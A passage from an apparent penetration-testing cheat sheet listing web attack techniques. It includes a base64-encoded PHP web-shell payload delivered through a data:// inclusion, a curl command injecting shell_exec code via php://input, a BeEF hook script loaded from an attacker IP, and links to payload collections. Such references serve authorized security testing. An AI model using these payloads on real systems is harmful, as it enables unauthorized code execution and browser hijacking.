       - If there is "Shell done !" on the webpage, then there is code execution and you can do things like :
      - <http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls>

    - Wrapper input://
      - `curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"`

  - Useful LFI list
    - Linux
      - `/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt`
    - Windows
      - `/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt`
    - Both
      - `/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt`

  - Tools
    - `kadimus --url <URL>`
    - `python lfisuite.py`

- Command injection
  - For command injection always use BurpSuite !
    - [Command Injection swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- Deserialization
  - [Insecure Deserialization - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)
  - [.NET - YSoSerial.Net](https://github.com/pwntester/ysoserial.net)

- File upload
  - [Upload InsecureFiles - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

- SQL injection
  - [mssql-sql-injection-cheat-sheet - pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
  - [sql-injection-authentication-bypass-cheat-sheet - pentestlab](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
  - [SQL Injection - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
  - [a-pentesters-guide-to-sql-injection-sqli](https://blog.cobalt.io/a-pentesters-guide-to-sql-injection-sqli-16fd570c3532)

- XSS
  - [XSS Injection - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
  - beef-xss
    - `cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password`
    - `<script src="http://<IP>:3000/hook.js"></script>`
- Other web vulnerabilities
  - [PayloadsAllTheThings - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings)

- Upload a file with PUT
  - `curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v`
